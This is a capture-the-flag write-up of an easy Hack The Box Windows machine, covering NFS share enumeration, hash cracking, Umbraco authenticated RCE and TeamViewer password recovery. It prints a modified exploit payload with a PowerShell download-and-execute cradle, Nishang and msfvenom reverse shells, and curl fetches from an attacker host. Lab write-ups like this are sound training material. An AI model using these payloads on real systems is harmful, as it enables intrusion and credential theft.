This box is rated easy difficulty on HTB. It involves us discovering an NFS share which can be mounted to grab a backup of the website. Digging through the source files, we find an Administrator hash to the Umbraco CMS instance that can be cracked and used to login. Once on the dashboard, we notice that the CMS version is vulnerable to authenticated RCE, letting us get a reverse shell as defaultapppool. Finally, TeamViewer is installed on the machine and let's us the administrator's password by decrypting it with a static AES key and IV.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields no results.

```
$ sudo nmap -p21,80,111,135,139,445,2049,5985,47001,49664-49680 -sCV 10.129.230.172 -oN fullscan-tcp
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-17 20:15 -0400
Nmap scan report for 10.129.230.172
Host is up (0.057s latency).

PORT      STATE  SERVICE       VERSION
21/tcp    open   ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open   http
|_http-title: Home - Acme Widgets
111/tcp   open   rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?
2049/tcp  open   nlockmgr      1-4 (RPC #100021)
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   unknown
49665/tcp open   unknown
49666/tcp open   unknown
49667/tcp open   unknown
49668/tcp closed unknown
49669/tcp closed unknown
49670/tcp closed unknown
49671/tcp closed unknown
49672/tcp closed unknown
49673/tcp closed unknown
49674/tcp closed unknown
49675/tcp closed unknown
49676/tcp closed unknown
49677/tcp closed unknown
49678/tcp open   unknown
49679/tcp open   unknown
49680/tcp open   unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: 59m59s
| smb2-time: 
|   date: 2026-04-18T01:16:36
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 184.57 seconds
```

Looks like a Windows machine with a few interesting ports open. I'll mainly focus on FTP, SMB, and NFS before enumerating the web server as they could hold invaluable information to use there. With that being said, I fire up Ffuf to search for subdirectories and Vhosts in the background to save on time.

## Service Enumeration
The FTP server allows for anonymous login, however there is nothing in it and we don't have the capability to upload a shell to proc it from the web server. Using Netexec to test SMB and RPC for Guest/Null authentication both fail, so we're not left with much.



We can see that port 2049 is open and hosts a Network File System server, which is interesting since SMB does relatively the same thing and is more common on Windows. This could be due to an environment mixed between Windows and Unix-like systems to work out compatibility.

## NFS Share
Either way, using the showmount command to list available file shares discloses a /site_backups directory which can be mounted to our local file system for easier parsing.

```
$ showmount -e 10.129.230.172

$ sudo mkdir -p /mnt/nfs_share

$ sudo mount 10.129.230.172:/site_backups /mnt/nfs_share
```



### Mounted Site Backup
With a site backup on our machine, we find an Umbraco CMS instance installed on the site. Inside of the `/App_Data` directory is an .sdf (Structured Data File) that gives us a few hashes when grabbing the strings from it.



### Site Admin Creds
Sending them over to Hashcat only cracks the Administrator's since it was using SHA1, now letting us login to the Umbraco site with elevated permissions.

```
$ hashcat -m 100 hashes /opt/seclists/rockyou.txt --force
```



Heading over to the landing page on port 80 shows standard business content for Acme Widgets, although most of it is Lorem Ipsum filler wording.



## Umbraco Exploitation
We can head straight to `/Umbraco` to sign in as the credentials found should validate to give us control over it anyways. The password fails for the username admin, but a few others were listed in the .sdf file and `admin@htb.local` eventually succeeds.

A quick look around the Admin dashboard discloses the version in use, which is v7.12.4.



### Authenticated RCE
Using this to search for known vulnerability PoCs on Exploit-DB shows two Python scripts that allow for Authenticated Remote Code Execution.



### Altering Script
After copying that to my home directory, I start by making a few changes to this script since it currently just launches the calculator app. I swap the value of `proc.StartInfo.FileName` from **calc.exe** to **cmd.exe**, and supply all necessary strings in login, password, and host parameters below it.



As of now, this will just start up a command line, but we can utilize the string cmd = line to pass in arguments to be executed in the CLI. In my case, I have it download [Nishang's](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) PowerShell reverse shell from my machine and execute to give me a foothold.

```
string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.243/rev.ps1')";
```

The changed portion should look something similar to the following (albeit slightly different formatting):

```
payload = """<?xml version="1.0"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">

<msxsl:script language="C#" implements-prefix="csharp_user">
public string xml()
{
    string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.243/rev.ps1')";
    System.Diagnostics.Process proc = new System.Diagnostics.Process();
    proc.StartInfo.FileName = "cmd.exe";
    proc.StartInfo.Arguments = cmd;
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.Start();
    string output = proc.StandardOutput.ReadToEnd();
    return output;
}
</msxsl:script>

<xsl:template match="/">
    <xsl:value-of select="csharp_user:xml()"/>
</xsl:template>

</xsl:stylesheet>"""

login = "admin@htb.local"
password = "[REDACTED]"
host = "http://10.129.230.172"
```

I should note that I added appended a line to the bottom of the PS script to execute it and connect to my Netcat listener, without this it will just sit on the box.

```
Invoke-PowerShellTcp -Reverse -IPAddress [ATTACKER_IP] -Port 443
```

With everything in place, we need a terminal to serve the PowerShell reverse shell script over Python, another terminal with our Netcat listener to catch the connection, and a final one to execute the Python exploit.

```
--Setting up Netcat listener--
$ rlwrap nc -lvnp 443

--Serving PS reverse shell over HTTP--
$ python3 -m http.server 80

--Executing exploit script--
$ python ./exploit.py
```



Once executed, we get a shell on the box as _defaultapppool_ and can start internal enumeration to escalate privileges towards Administrator.

## Privilege Escalation
Checking the Users directory shows that the only real person on this system is the administrator. We can grab the user flag under the Public user's Desktop folder too.



### Finding TeamViewer
Light enumeration on the filesystem reveals that _TeamViewer_ is installed under `C:\Program Files (x86)` and seems to be running version 7.



A quick Google search reveals that _TeamViewer_ is a secure, cloud-based platform for remote access, control, and support purposes. Metasploit also has a post-exploitation module that will grab passwords from certain files and use AES128-CBC to decrypt them along with a static iv and key.

To make things easier, I will upload a Meterpreter shell and catch it with a Metasploit handler in order to utilize this module. This can be done by hand but would require creating or reusing an already existing decryption script, so why reinvent the wheel.

```
--Creating Meterpreter shell executable--
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=9001 -f exe -o safe.exe

--Serving binary to remote machine--
$ python3 -m http.server 80

--Grabbing and executing to get Meterpreter session--
$ curl http://ATTACKER_IP/safe.exe -o safe.exe
$ .\safe.exe
```

Once we have a Meterpreter session up and running, I use the `post/windows/gather/credentials/teamviewer_passwords` module to gather passwords from TeamViewer.



This reveals just one unattended password for us and attempting to authenticate via WinRM succeeds, showing that we're able to get a shell on the system as Administrator. I end up using [Evil-WinRM](https://www.kali.org/tools/evil-winrm/) to catch one and grab the root flag under their desktop folder to complete this challenge.



Overall, the hardest part of this box was getting a reverse shell through altering the exploit, but I enjoyed it plenty. I hope this was helpful to anyone following along or stuck and happy hacking!
